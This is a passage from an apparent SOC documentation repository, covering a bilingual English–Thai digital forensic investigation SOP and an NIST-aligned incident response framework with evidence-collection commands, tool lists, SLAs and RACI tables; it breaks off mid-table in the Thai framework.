| **Dynamic** | Execute in sandbox, observe behavior | ANY.RUN, Cuckoo Sandbox |
| **Code** | Decompile, reverse engineer | Ghidra, IDA Pro, dnSpy |

### Step 5: Findings & Timeline (2–4 hours)

- [ ] Build chronological timeline of attacker activity
- [ ] Identify **initial access vector** (how they got in)
- [ ] Map activity to **MITRE ATT&CK techniques**
- [ ] Identify all **compromised accounts, systems, and data**
- [ ] Determine **dwell time** (first access → detection)
- [ ] Identify **data accessed or exfiltrated**
- [ ] Determine if attacker still has access

### Step 6: Reporting (4–8 hours)

Forensic report should include:

1. **Executive Summary** — Non-technical overview for management
2. **Incident Timeline** — Chronological sequence of events
3. **Scope of Compromise** — Systems, accounts, data affected
4. **Root Cause** — How the incident occurred
5. **MITRE ATT&CK Mapping** — Techniques used
6. **Evidence Inventory** — All evidence collected with hashes
7. **Findings** — Detailed technical analysis
8. **Indicators of Compromise** — IOCs for detection
9. **Recommendations** — Remediation and prevention steps
10. **Chain of Custody Log** — Evidence handling record

### Step 7: Evidence Archiving

| Item | Retention | Storage | Access |
|:---|:---:|:---|:---|
| Forensic images (disk, memory) | 2 years | Encrypted offline storage | Forensic team + Legal |
| Case files and reports | 5 years | Secure file server | SOC Lead + Legal |
| IOCs extracted | Indefinite | TI Platform | SOC team |
| Chain of custody logs | 7 years | Legal archives | Legal only |

---

## Chain of Custody Template

| # | Date/Time | Action | Item | From | To | Signature |
|:---:|:---|:---|:---|:---|:---|:---|
| 1 | [datetime] | Collected | Memory dump (sha256: abc...) | System X | Analyst A | [sign] |
| 2 | [datetime] | Collected | Disk image (sha256: def...) | System X | Analyst A | [sign] |
| 3 | [datetime] | Transferred | Disk image | Analyst A | Evidence Locker | [sign] |
| 4 | [datetime] | Analyzed | Disk image (working copy) | Evidence Locker | Analyst B | [sign] |

> Every transfer of evidence MUST be documented. Unbroken chain of custody is required for legal proceedings.

---

## Forensic Toolkit

### Essential Tools (Free / Open Source)

| Tool | Purpose | OS |
|:---|:---|:---|
| **Velociraptor** | Remote evidence collection, hunting | Cross-platform |
| **Volatility 3** | Memory forensics | Cross-platform |
| **Autopsy** | Disk forensics (GUI) | Windows/Linux |
| **Hayabusa** | Windows event log analysis (fast) | Cross-platform |
| **KAPE** | Automated artifact collection | Windows |
| **FTK Imager** | Disk imaging, evidence preview | Windows |
| **Plaso / log2timeline** | Super timeline creation | Cross-platform |
| **RegRipper** | Registry analysis | Windows |
| **Ghidra** | Reverse engineering | Cross-platform |
| **Wireshark** | Network forensics | Cross-platform |
| **CyberChef** | Data decoding/transformation | Web |

---

## Related Documents

-   [Evidence Collection](Evidence_Collection.en.md) — Basic evidence collection procedures
-   [IR Framework](Framework.en.md) — Incident response lifecycle
-   [Incident Classification](Incident_Classification.en.md) — How to classify incidents
-   [Escalation Matrix](Escalation_Matrix.en.md) — Escalation procedures
-   [Communication Templates](Communication_Templates.en.md) — Notification templates
-   [Lessons Learned Template](Lessons_Learned_Template.en.md) — Post-incident review


---

## File: 05_Incident_Response/Forensic_Investigation.th.md

# Forensic Investigation SOP / SOP การสืบสวนทางนิติวิทยาศาสตร์ดิจิทัล

**รหัสเอกสาร**: IR-SOP-017
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ลับ
**อัปเดตล่าสุด**: 2026-02-15

> นิติวิทยาศาสตร์ดิจิทัลรักษา **หลักฐานที่ยอมรับทางกฎหมาย** และช่วยวิเคราะห์ **สาเหตุที่แท้จริง** ได้อย่างละเอียด SOP นี้ครอบคลุมเมื่อไรควรทำ forensics, วิธีเก็บหลักฐานอย่างถูกต้อง, และขั้นตอนการสืบสวนทั้งหมด

---

## เมื่อไรควรทำ Forensics

| เงื่อนไข | ระดับ Forensic | ผู้เริ่ม |
|:---|:---:|:---|
| P1 incident (ยืนยันถูกบุกรุก) | **เต็มรูปแบบ** | IR Manager |
| P2 incident (สงสัยถูกบุกรุก) | **เฉพาะจุด** | SOC Lead |
| Data breach ที่มีผลกระทบกฎหมาย (PDPA/GDPR) | **เต็มรูปแบบ** + Legal hold | DPO / กฎหมาย |
| สืบสวนภัยคุกคามจากภายใน | **เต็มรูปแบบ** + HR มีส่วนร่วม | SOC Manager / HR |
| คำร้องจากหน่วยงานบังคับใช้กฎหมาย | **เต็มรูปแบบ** + Chain of custody | กฎหมาย |
| สืบสวนเชิงลึกหลังควบคุมเหตุการณ์ | **เฉพาะจุด** | IR Lead |
| Malware ต้อง reverse engineering | **เฉพาะจุด** (malware) | Tier 3 Analyst |

---

## ประเภทหลักฐาน & ลำดับความสำคัญ

| ลำดับ | ประเภท | ความเปลี่ยนแปลงง่าย | วิธีเก็บ | เครื่องมือ |
|:---:|:---|:---:|:---|:---|
| 🔴 1 | **หน่วยความจำ (RAM)** | สูงมาก | Memory dump ก่อนปิดเครื่อง | WinPmem, LiME, Velociraptor |
| 🔴 2 | **Running Processes** | สูงมาก | รายการ process + network connections | Velociraptor, EDR |
| 🔴 3 | **Network Connections** | สูงมาก | Active connections + DNS cache | netstat, Velociraptor |
| 🟠 4 | **Temporary / Swap Files** | สูง | Pagefile, hibernation file | FTK Imager, dd |
| 🟠 5 | **Event Logs** | ปานกลาง | Windows Event, syslog, auth logs | Velociraptor, wevtutil |
| 🟡 6 | **Disk Image** | ต่ำ | สำเนาดิสก์แบบ bit-for-bit | FTK Imager, dd |
| 🟡 7 | **Registry / Config** | ต่ำ | Registry hives, crontab, scheduled tasks | RegRipper, Autopsy |
| 🔵 8 | **Network Logs** | ต่ำ | PCAP, NetFlow, firewall logs | Wireshark, SIEM |
| 🔵 9 | **Application Logs** | ต่ำ | Web server, database, app logs | SIEM |

> ⚠️ **ต้องเก็บตามลำดับ volatility เสมอ** — สิ่งที่เปลี่ยนง่ายที่สุดก่อน

---

## ขั้นตอนการสืบสวน

```mermaid
graph TD
    A[🔔 ประกาศ Incident] --> B[1. Forensic Triage]
    B --> C[2. รักษาหลักฐาน]
    C --> D[3. เก็บ & Imaging]
    D --> E[4. วิเคราะห์]
    E --> F[5. สรุปผล & Timeline]
    F --> G[6. เขียนรายงาน]
    G --> H[7. จัดเก็บหลักฐาน]

    style A fill:#3b82f6,color:#fff
    style H fill:#22c55e,color:#fff
```

---

### ขั้นที่ 1: Forensic Triage (15–30 นาที)

- [ ] รับรายละเอียด incident จากทีม IR
- [ ] ทบทวนหลักฐานที่มี (alerts, logs, EDR timeline)
- [ ] กำหนด **ขอบเขต**: ระบบใดเกี่ยวข้อง?
- [ ] กำหนด **ระดับ forensic**: เต็มรูปแบบหรือเฉพาะจุด?
- [ ] ติดต่อฝ่ายกฎหมายถ้ามีผลกระทบ data breach / กฎหมาย
- [ ] เริ่ม **legal hold** ถ้าจำเป็น (รักษาข้อมูลทั้งหมดที่เกี่ยวข้อง)

### ขั้นที่ 2: รักษาหลักฐาน (ทันที)

> ⚠️ **ห้ามปิดเครื่อง** จนกว่าจะเก็บ memory เสร็จ

- [ ] **ห้าม** สแกน antivirus (อาจทำลาย artifacts)
- [ ] **ห้าม** ติดตั้งเครื่องมือบนเครื่องต้องสงสัย (ถ้าเป็นไปได้)
- [ ] **ห้าม** เปิดดูไฟล์บนเครื่องต้องสงสัย
- [ ] ถ่ายรูปหน้าจอและการตั้งค่าทางกายภาพ
- [ ] บันทึก processes ที่ทำงาน, ผู้ใช้ที่ login, ไฟล์ที่เปิด
- [ ] แยกเครื่องออกจากเครือข่าย (แต่เปิดเครื่องไว้)
- [ ] จดวันเวลาและ timezone ที่แน่นอน

### ขั้นที่ 3: เก็บ & Imaging (1–4 ชม.)

#### Memory Acquisition

```bash
# Windows (รันจาก USB / network share ไม่ใช่จากดิสก์ต้องสงสัย)
winpmem_mini_x64.exe output_memory.raw

# Linux
sudo ./LiME/src/lime-$(uname -r).ko "path=/mnt/usb/memory.lime format=lime"

# ผ่าน Velociraptor (remote)
velociraptor collect -artifact Windows.Memory.Acquisition
```

#### Disk Imaging

```bash
# Linux forensic workstation (สำเนา bit-for-bit)
sudo dc3dd if=/dev/sda of=/mnt/evidence/disk_image.dd hash=sha256 log=/mnt/evidence/imaging.log
```

#### Log Collection

```bash
# Windows Event Logs (ทั้งหมด)
wevtutil epl Security C:\evidence\security.evtx
wevtutil epl System C:\evidence\system.evtx
wevtutil epl "Microsoft-Windows-Sysmon/Operational" C:\evidence\sysmon.evtx

# Linux logs
tar czf /mnt/usb/linux_logs.tar.gz /var/log/
```

#### ตรวจสอบ Hash

```bash
# Hash หลักฐานทันทีหลังเก็บ
sha256sum /mnt/evidence/disk_image.dd > /mnt/evidence/disk_image.dd.sha256
sha256sum /mnt/evidence/memory.raw > /mnt/evidence/memory.raw.sha256
```

### ขั้นที่ 4: วิเคราะห์ (4–48 ชม.)

#### 4a. Timeline Analysis

สร้าง unified timeline จากทุกแหล่งหลักฐาน:

| แหล่ง | เครื่องมือ | สิ่งที่ดึง |
|:---|:---|:---|
| Windows Events | EvtxECmd, Hayabusa | Logons, process creation, service install |
| MFT (NTFS) | MFTECmd | เวลาสร้าง/แก้ไข/เข้าถึงไฟล์ |
| Prefetch | PECmd | ประวัติการรันโปรแกรม |
| Registry | RegRipper | กิจกรรมผู้ใช้, USB history |
| Browser | Hindsight | URLs, downloads, searches |
| Memory | Volatility 3 | Processes, network, injected code |

```bash
# Volatility 3: รายการ process
vol -f memory.raw windows.pslist
vol -f memory.raw windows.netscan
vol -f memory.raw windows.malfind
```

#### 4b. Artifacts สำคัญ

| OS | Artifact | ตำแหน่ง | สิ่งที่เปิดเผย |
|:---|:---|:---|:---|
| Windows | Prefetch | `C:\Windows\Prefetch\` | โปรแกรมที่รัน, เมื่อไร, กี่ครั้ง |
| Windows | Amcache | `C:\Windows\appcompat\Programs\Amcache.hve` | โปรแกรมที่ติดตั้ง/รัน |
| Windows | $MFT | Root ของ NTFS volume | Metadata ไฟล์ทั้งหมด |
| Linux | auth.log | `/var/log/auth.log` | Authentication events |
| Linux | .bash_history | `~/.bash_history` | ประวัติคำสั่ง |
| Linux | crontab | `/var/spool/cron/` | Scheduled tasks (persistence) |

#### 4c. วิเคราะห์ Malware (ถ้ามี)

| ระดับ | กิจกรรม | เครื่องมือ |
|:---|:---|:---|
| **Static** | ค้นหา hash, strings, PE header | VirusTotal, PEStudio |
| **Dynamic** | รันใน sandbox, สังเกตพฤติกรรม | ANY.RUN, Cuckoo |
| **Code** | Decompile, reverse engineer | Ghidra, IDA Pro |

### ขั้นที่ 5: สรุปผล & Timeline (2–4 ชม.)

- [ ] สร้าง timeline ตามลำดับเวลาของกิจกรรมผู้บุกรุก
- [ ] ระบุ **ช่องทางเข้าเริ่มต้น** (initial access vector)
- [ ] แมปกิจกรรมกับ **MITRE ATT&CK techniques**
- [ ] ระบุ **accounts, ระบบ, และข้อมูล** ที่ถูกบุกรุก
- [ ] คำนวณ **dwell time** (เข้าถึงครั้งแรก → ตรวจพบ)
- [ ] ระบุ **ข้อมูลที่ถูกเข้าถึงหรือนำออก**

### ขั้นที่ 6: เขียนรายงาน (4–8 ชม.)

รายงาน forensic ต้องประกอบด้วย:

1. **สรุปผู้บริหาร** — ภาพรวมไม่เทคนิคสำหรับผู้บริหาร
2. **Timeline** — ลำดับเวลาของเหตุการณ์
3. **ขอบเขตการถูกบุกรุก** — ระบบ, accounts, ข้อมูลที่ได้รับผลกระทบ
4. **สาเหตุที่แท้จริง** — เหตุการณ์เกิดขึ้นได้อย่างไร
5. **MITRE ATT&CK Mapping** — Techniques ที่ใช้
6. **รายการหลักฐาน** — หลักฐานทั้งหมดพร้อม hashes
7. **ผลการวิเคราะห์** — รายละเอียดทางเทคนิค
8. **IOCs** — Indicators of Compromise สำหรับ detection
9. **คำแนะนำ** — ขั้นตอนแก้ไขและป้องกัน
10. **บันทึก Chain of Custody** — ประวัติการจัดการหลักฐาน

### ขั้นที่ 7: จัดเก็บหลักฐาน

| รายการ | เก็บนาน | ที่จัดเก็บ | สิทธิ์เข้าถึง |
|:---|:---:|:---|:---|
| Forensic images (disk, memory) | 2 ปี | Encrypted offline storage | ทีม Forensic + กฎหมาย |
| Case files และรายงาน | 5 ปี | Secure file server | SOC Lead + กฎหมาย |
| IOCs ที่ดึงออกมา | ไม่จำกัด | TI Platform | ทีม SOC |
| Chain of custody logs | 7 ปี | Legal archives | กฎหมายเท่านั้น |

---

## Template Chain of Custody

| # | วันเวลา | การดำเนินการ | รายการ | จาก | ถึง | ลายเซ็น |
|:---:|:---|:---|:---|:---|:---|:---|
| 1 | [datetime] | เก็บ | Memory dump (sha256: abc...) | System X | Analyst A | [เซ็น] |
| 2 | [datetime] | เก็บ | Disk image (sha256: def...) | System X | Analyst A | [เซ็น] |
| 3 | [datetime] | ส่งต่อ | Disk image | Analyst A | ตู้เก็บหลักฐาน | [เซ็น] |
| 4 | [datetime] | วิเคราะห์ | Disk image (working copy) | ตู้เก็บหลักฐาน | Analyst B | [เซ็น] |

> การส่งต่อหลักฐานทุกครั้ง **ต้อง** บันทึก Chain of custody ที่ต่อเนื่องจำเป็นสำหรับการดำเนินคดี

---

## ชุดเครื่องมือ Forensic

### เครื่องมือจำเป็น (ฟรี / Open Source)

| เครื่องมือ | วัตถุประสงค์ | OS |
|:---|:---|:---|
| **Velociraptor** | เก็บหลักฐานระยะไกล, hunting | Cross-platform |
| **Volatility 3** | Memory forensics | Cross-platform |
| **Autopsy** | Disk forensics (GUI) | Windows/Linux |
| **Hayabusa** | วิเคราะห์ Windows event log (เร็ว) | Cross-platform |
| **KAPE** | เก็บ artifact อัตโนมัติ | Windows |
| **FTK Imager** | Disk imaging, preview หลักฐาน | Windows |
| **Plaso / log2timeline** | สร้าง super timeline | Cross-platform |
| **Ghidra** | Reverse engineering | Cross-platform |
| **Wireshark** | Network forensics | Cross-platform |
| **CyberChef** | Decode/แปลงข้อมูล | Web |

---

### Chain of Custody Log

| # | Item | Collected By | Date/Time | Hash (SHA256) | Storage |
|:---|:---|:---|:---|:---|:---|
| E-001 | Disk image | Analyst A | YYYY-MM-DD | abc123... | Evidence locker |
| E-002 | Memory dump | Analyst B | YYYY-MM-DD | def456... | Encrypted NAS |
| E-003 | Network PCAP | Analyst A | YYYY-MM-DD | ghi789... | Evidence server |

### Forensic Tool Quick Reference

| Tool | Purpose | Platform |
|:---|:---|:---|
| FTK Imager | Disk imaging | Windows |
| Volatility 3 | Memory analysis | Cross-platform |
| Wireshark | Packet analysis | Cross-platform |
| Autopsy | File system analysis | Windows/Linux |
| KAPE | Artifact collection | Windows |

### Evidence Priority

| Type | Volatility |
|:---|:---|
| RAM | สูงมาก |
| Processes | สูง |
| Network | ปานกลาง |
| Disk | ต่ำ |

## เอกสารที่เกี่ยวข้อง

-   [Evidence Collection](Evidence_Collection.en.md) — ขั้นตอนเก็บหลักฐานเบื้องต้น
-   [IR Framework](Framework.en.md) — วงจรชีวิตการตอบสนอง
-   [Incident Classification](Incident_Classification.en.md) — วิธีจำแนกเหตุการณ์
-   [Escalation Matrix](Escalation_Matrix.en.md) — ขั้นตอนการส่งต่อ
-   [Communication Templates](Communication_Templates.en.md) — แม่แบบการแจ้งเตือน
-   [Lessons Learned Template](Lessons_Learned_Template.en.md) — ทบทวนหลังเหตุการณ์


---

## File: 05_Incident_Response/Framework.en.md

# Incident Response Framework

This document defines the standard Incident Response (IR) lifecycle for the organization's Security Operations Center (SOC), aligned with **NIST SP 800-61r2** and **ISO/IEC 27035**. It serves as the master reference for all IR activities — all playbooks, procedures, and templates derive from this framework.

## Overview

```mermaid
graph LR
    A["🛡️ 1. Preparation"] --> B["🔍 2. Detection & Analysis"]
    B --> C["🔒 3. Containment"]
    C --> D["🧹 4. Eradication"]
    D --> E["🔄 5. Recovery"]
    E --> F["📝 6. Lessons Learned"]
    F --> A
    B -.->|False Positive| A
```

| Phase | Objective | Key Activities | Owner |
|:---|:---|:---|:---|
| Preparation | Readiness | Tools, training, playbooks | SOC Manager |
| Detection & Analysis | Identify & triage | Alert triage, classification, investigation | Tier 1–2 Analyst |
| Containment | Limit damage | Isolate, block, preserve evidence | Tier 2–3 Analyst |
| Eradication | Remove threat | Clean, patch, harden | Tier 2–3 + IT Ops |
| Recovery | Restore operations | Re-deploy, monitor, validate | IT Ops + SOC |
| Lessons Learned | Improve | PIR, update rules, metrics | SOC Manager |

---

## 1. Preparation

Preparation ensures the SOC has the **people, processes, and technology** ready to respond effectively.

### 1.1 People
| Area | Requirements |
|:---|:---|
| **Staffing** | Adequate coverage per [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md) |
| **Training** | Analysts trained on all playbooks and IR procedures quarterly |
| **On-Call** | Escalation roster maintained and tested monthly |
| **Communication** | Contact lists for management, legal, PR, law enforcement |

### 1.2 Technology
| Tool Category | Purpose | Status Check |
|:---|:---|:---|
| **SIEM** | Log aggregation, correlation, alerting | Daily health check |
| **EDR** | Endpoint detection, isolation, forensics | Agent coverage ≥ 95% |
| **SOAR** | Automated triage, enrichment, response | Playbook test monthly |
| **Network** | NSM, IDS/IPS, PCAP, NetFlow | Sensor coverage verified |
| **Ticketing** | Case management, SLA tracking | Queue reviewed per shift |
| **TI Platform** | IoC feeds, enrichment APIs | Feed freshness < 24h |
| **Forensics** | Disk/memory/network acquisition tools | Tools tested quarterly |

### 1.3 Documentation
- IR Plan reviewed and approved by management annually
- All playbooks current and tested via [tabletop exercises](Tabletop_Exercises.en.md)
- Communication templates pre-drafted (internal, customer, regulatory, media)
- Legal counsel and PDPA notification process documented

### 1.4 Readiness Metrics
| Metric | Target | Measurement |
|:---|:---|:---|
| Playbook coverage (MITRE ATT&CK) | ≥ 80% of top techniques | Quarterly review |
| IR drill frequency | ≥ 1 per quarter | Drill log |
| Analyst certification rate | ≥ 70% | Training records |
| Contact roster accuracy | 100% | Monthly validation |

---

## 2. Detection & Analysis

The most critical phase — correctly identifying real threats and filtering noise.

### 2.1 Alert Sources

```mermaid
graph TD
    SIEM["SIEM Alerts"] --> Triage
    EDR["EDR Alerts"] --> Triage
    Email["Email Gateway"] --> Triage
    Users["User Reports"] --> Triage
    TI["Threat Intel"] --> Triage
    Triage["🔍 Triage Queue"]
    Triage --> Classify{Classification}
    Classify -->|True Positive| Incident["Open Incident"]
    Classify -->|False Positive| FP["Close & Tune"]
    Classify -->|Suspicious| Investigate["Investigate Further"]
```

### 2.2 Triage Process (Tier 1)

| Step | Action | SLA |
|:---|:---|:---|
| 1 | **Acknowledge** — Pick up alert from queue | < 10 min |
| 2 | **Context** — Check affected user, source IP, asset criticality | — |
| 3 | **Enrich** — Query TI feeds (VirusTotal, AbuseIPDB, URLScan) | — |
| 4 | **Correlate** — Search SIEM for related events (±1 hour window) | — |
| 5 | **Classify** — Assign: TP / FP / Suspicious | < 30 min |
| 6 | **Route** — TP → Open incident, FP → Close & tune, Suspicious → Escalate | — |

> 📚 **Detailed procedure**: [Tier 1 Runbook](Runbooks/Tier1_Runbook.en.md)

### 2.3 Classification

| Dimension | Options | Reference |
|:---|:---|:---|
| **Severity** | Critical · High · Medium · Low | [Severity Matrix](Severity_Matrix.en.md) |
| **Category** | Phishing · Malware · Ransomware · Account Compromise · DDoS · Insider · Data Breach · etc. | [Incident Classification](Incident_Classification.en.md) |
| **Priority** | P1 (Immediate) · P2 (Urgent) · P3 (Normal) · P4 (Low) | [Escalation Matrix](Escalation_Matrix.en.md) |

### 2.4 Investigation (Tier 2)

When an alert is classified as a true positive or requires further investigation:

1. **Scope** — Determine affected assets, users, and data
2. **Timeline** — Build event timeline using SIEM, EDR, and network logs
3. **Root Cause** — Identify initial access vector and attack path
4. **Impact** — Assess business impact and data exposure
5. **IoC Extraction** — Document all IoCs (IPs, domains, hashes, email addresses)

> 📚 **Log sources**: [Log Source Matrix](../06_Operations_Management/Log_Source_Matrix.en.md)

---

## 3. Containment

Objective: **Stop the bleeding** — limit attacker access and prevent further damage while preserving evidence.

### 3.1 Containment Strategy

| Type | Actions | When to Use |
|:---|:---|:---|
| **Short-term** | Isolate host (EDR), block IP/domain (FW), disable account (IAM), quarantine email | Immediately upon confirmation |
| **Long-term** | Patch vulnerability, apply network segmentation, enforce MFA, revoke API keys | After initial containment |

### 3.2 Containment Decision Matrix

| Severity | Auto-Contain? | Approval Required? | Communication |
|:---|:---:|:---:|:---|
| **Critical** | ✅ Yes (EDR auto-isolate) | Post-action notification to Manager | Immediate escalation to CISO |
| **High** | ⚠️ Partial (block IoCs) | SOC Lead approval | Email to SOC Manager |
| **Medium** | ❌ No | Analyst judgment | Ticket update |
| **Low** | ❌ No | Not required | Ticket update |

### 3.3 Evidence Preservation

> ⚠️ **Before eradication**, always preserve:

- Memory dump of affected systems
- Disk image (if warranted by severity)
- Network captures (PCAP)
- Relevant log exports
- Screenshots of attacker artifacts

> 📚 **Detailed procedure**: [Forensic Investigation](Forensic_Investigation.en.md)

---

## 4. Eradication

Objective: **Completely remove** the threat from the environment.

### 4.1 Eradication Actions

| Threat Type | Eradication Steps |
|:---|:---|
| **Malware** | Remove malicious files, registry keys, scheduled tasks; scan with updated signatures |
| **Compromised Account** | Reset credentials, revoke sessions, review account activity |
| **Vulnerability Exploit** | Apply patch, update WAF rules, verify fix |
| **Persistence Mechanism** | Remove backdoors, rogue services, unauthorized SSH keys |
| **Data Staging** | Remove exfiltration tools, review data access logs |

### 4.2 Verification

- [ ] Run full scan on all affected systems
- [ ] Verify no remaining IoCs in SIEM (24-hour lookback)
- [ ] Confirm all compromised credentials have been rotated
- [ ] Validate no persistence mechanisms remain
- [ ] Test that containment blocks are effective

---

## 5. Recovery

Objective: **Safely restore** systems to normal operations with enhanced monitoring.

### 5.1 Recovery Steps

| # | Step | Owner | Verification |
|:---:|:---|:---|:---|
| 1 | Deploy clean/patched systems | IT Ops | System integrity check |
| 2 | Restore from clean backups (if needed) | IT Ops | Data integrity validation |
| 3 | Re-enable network connectivity | Network Team | Traffic monitoring |
| 4 | Re-enable user accounts | IAM Team | Access review |
| 5 | Enhanced monitoring period | SOC | 24–72 hour watch |

### 5.2 Enhanced Monitoring Period

| Severity | Monitoring Duration | Focus Areas |
|:---|:---|:---|
| **Critical** | 72 hours | Re-infection, lateral movement, data exfiltration |
| **High** | 48 hours | Persistence, C2 communication |
| **Medium** | 24 hours | Similar alerts, related accounts |
| **Low** | Normal monitoring | Standard alerting |

---

## 6. Lessons Learned

Objective: **Continuously improve** IR capabilities based on real incidents.

### 6.1 Post-Incident Review (PIR)

> PIR must be conducted within **72 hours** of incident closure for High/Critical incidents.

| Agenda Item | Questions to Answer |
|:---|:---|
| **Timeline Review** | What happened and when? Were SLAs met? |
| **Detection** | How was it detected? Could we have detected it faster? |
| **Response** | Was the response effective? What went well / poorly? |
| **Communication** | Was stakeholder communication adequate and timely? |
| **Root Cause** | What enabled the attack? What control failed? |
| **Improvements** | What specific changes will prevent recurrence? |

### 6.2 PIR Outputs → Actions

| Output | Action Required | Owner | Deadline |
|:---|:---|:---|:---|
| Detection gap identified | Create/update detection rule | Detection Engineer | 1 week |
| Playbook inadequacy | Update/create playbook | SOC Analyst (T2+) | 2 weeks |
| Process failure | Update SOP | SOC Manager | 2 weeks |
| Training gap | Schedule training session | Training Lead | 1 month |
| Technology gap | Submit requirement to budget | CISO | Next cycle |

### 6.3 Metrics to Track

| Metric | Definition | Target |
|:---|:---|:---|
| **MTTD** | Mean Time To Detect | < 30 minutes |
| **MTTR** | Mean Time To Respond | < 60 minutes (Critical/High) |
| **MTTA** | Mean Time To Acknowledge | < 10 minutes |
| **FPR** | False Positive Rate | < 10% |
| **Closure Rate** | Incidents closed within SLA | ≥ 95% |
| **PIR Completion** | PIR conducted within 72h | 100% (Critical/High) |

> 📚 **Detailed metrics**: [SOC Metrics & KPIs](../06_Operations_Management/SOC_Metrics.en.md) · [KPI Dashboard](../06_Operations_Management/KPI_Dashboard_Template.en.md)

---

## Severity → Response Time Matrix

Quick reference for SLA targets across all phases:

| Severity | MTTA | MTTD | Containment | Eradication | Recovery | PIR |
|:---|:---:|:---:|:---:|:---:|:---:|:---:|
| **Critical** | 5 min | 15 min | 1 hour | 4 hours | 24 hours | Required (72h) |
| **High** | 10 min | 30 min | 4 hours | 24 hours | 48 hours | Required (72h) |
| **Medium** | 30 min | 2 hours | 24 hours | 72 hours | 1 week | Recommended |
| **Low** | 1 hour | 8 hours | 72 hours | 1 week | 2 weeks | Optional |

---

## RACI Matrix

| Activity | SOC Analyst | SOC Lead | SOC Manager | CISO | IT Ops | Legal |
|:---|:---:|:---:|:---:|:---:|:---:|:---:|
| Alert Triage | **R** | A | I | — | — | — |
| Investigation | **R** | A | I | — | C | — |
| Containment | R | **A** | I | I | C | — |
| Eradication | R | **A** | I | — | **R** | — |
| Recovery | C | I | A | I | **R** | — |
| Communication (Internal) | — | R | **A** | I | — | C |
| Communication (External) | — | — | R | **A** | — | **R** |
| PIR | R | **R** | A | I | C | — |

*R = Responsible, A = Accountable, C = Consulted, I = Informed*

---

## Related Documents

- [Tier 1 Runbook](Runbooks/Tier1_Runbook.en.md) — Step-by-step triage procedure
- [Severity Matrix](Severity_Matrix.en.md) — Classification criteria
- [Incident Classification](Incident_Classification.en.md) — Taxonomy and categories
- [Escalation Matrix](Escalation_Matrix.en.md) — Escalation paths and SLAs
- [Forensic Investigation](Forensic_Investigation.en.md) — Evidence handling procedures
- [Communication Templates](Communication_Templates.en.md) — Pre-drafted notifications
- [Incident Report Template](../11_Reporting_Templates/incident_report.en.md) — Post-incident documentation
- [Shift Handoff Standard](../06_Operations_Management/Shift_Handoff.en.md) — Operational continuity

### Playbooks
- [PB-01 Phishing](Playbooks/Phishing.en.md) · [PB-02 Ransomware](Playbooks/Ransomware.en.md) · [PB-03 Malware](Playbooks/Malware_Infection.en.md)
- [PB-04 Account Compromise](Playbooks/Account_Compromise.en.md) · [PB-05 DDoS](Playbooks/DDoS_Attack.en.md) · [PB-06 BEC](Playbooks/BEC.en.md)
- [Full playbook list →](../README.md)

## References

- [NIST SP 800-61r2 — Computer Security Incident Handling Guide](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [ISO/IEC 27035 — Information Security Incident Management](https://www.iso.org/standard/60803.html)
- [SANS Incident Handler's Handbook](https://www.sans.org/white-papers/33901/)
- [FIRST CSIRT Framework](https://www.first.org/standards/frameworks/)


---

## File: 05_Incident_Response/Framework.th.md

# กรอบการตอบสนองต่อเหตุการณ์ (Incident Response Framework)

เอกสารนี้กำหนดวงจรชีวิตมาตรฐานของการตอบสนองต่อเหตุการณ์ความปลอดภัย (IR) สำหรับศูนย์ปฏิบัติการความมั่นคงปลอดภัยทางไซเบอร์ (SOC) โดยอ้างอิงตามมาตรฐาน **NIST SP 800-61r2** และ **ISO/IEC 27035** เอกสารนี้เป็นเอกสารอ้างอิงหลักสำหรับกิจกรรม IR ทั้งหมด

## ภาพรวม

```mermaid
graph LR
    A["🛡️ 1. การเตรียมความพร้อม"] --> B["🔍 2. การตรวจจับและวิเคราะห์"]
    B --> C["🔒 3. การจำกัดวง"]
    C --> D["🧹 4. การกำจัด"]
    D --> E["🔄 5. การกู้คืน"]
    E --> F["📝 6. บทเรียน"]
    F --> A
    B -.->|False Positive| A
```

| ขั้นตอน | วัตถุประสงค์ | กิจกรรมหลัก | ผู้รับผิดชอบ |
|:---|:---|:---|:---|
| เตรียมความพร้อม | ความพร้อม | เครื่องมือ, การฝึกอบรม, playbooks | SOC Manager |
| ตรวจจับและวิเคราะห์ | ระบุและคัดกรอง | คัดกรอง alert, จำแนกประเภท, สืบสวน | Analyst T1–T2 |
| จำกัดวง | จำกัดความเสียหาย | แยกเครื่อง, บล็อก, เก็บหลักฐาน | Analyst T2–T3 |
| กำจัด | ลบภัยคุกคาม | ทำความสะอาด, อุดช่องโหว่, เสริมความแข็งแกร่ง | T2–T3 + IT Ops |
| กู้คืน | คืนสภาพระบบ | ติดตั้งใหม่, เฝ้าระวัง, ตรวจสอบ | IT Ops + SOC |
| บทเรียน | ปรับปรุง | PIR, อัปเดตกฎ, ตัวชี้วัด | SOC Manager |

---

## 1. การเตรียมความพร้อม (Preparation)

การเตรียมความพร้อมเพื่อให้ SOC มี **คน, กระบวนการ, และเทคโนโลยี** พร้อมตอบสนองอย่างมีประสิทธิภาพ

### 1.1 บุคลากร
| ด้าน | ข้อกำหนด |
|:---|:---|
| **จำนวนคน** | เพียงพอตาม [โครงสร้างทีม SOC](../06_Operations_Management/SOC_Team_Structure.th.md) |
| **การฝึกอบรม** | Analyst ผ่านการฝึก playbook ทุกรายไตรมาส |
| **เวรรับเรื่อง** | รายชื่อ escalation ทดสอบทุกเดือน |
| **การสื่อสาร** | รายชื่อผู้ติดต่อ: ผู้บริหาร, กฎหมาย, PR, หน่วยงานบังคับใช้กฎหมาย |

### 1.2 เทคโนโลยี
| ประเภทเครื่องมือ | วัตถุประสงค์ | การตรวจสอบ |
|:---|:---|:---|
| **SIEM** | รวบรวม log, correlation, แจ้งเตือน | ตรวจสุขภาพรายวัน |
| **EDR** | ตรวจจับ endpoint, แยกเครื่อง, forensics | Agent coverage ≥ 95% |
| **SOAR** | Triage อัตโนมัติ, enrichment, ตอบสนอง | ทดสอบ playbook รายเดือน |
| **Network** | NSM, IDS/IPS, PCAP, NetFlow | ตรวจ sensor coverage |
| **Ticketing** | จัดการเคส, ติดตาม SLA | ตรวจคิวทุกกะ |
| **TI Platform** | IoC feeds, enrichment APIs | ข้อมูลสดภายใน 24 ชม. |
| **Forensics** | เก็บหลักฐาน disk/memory/network | ทดสอบเครื่องมือทุกไตรมาส |

### 1.3 ตัวชี้วัดความพร้อม
| ตัวชี้วัด | เป้าหมาย | การวัด |
|:---|:---|:---|
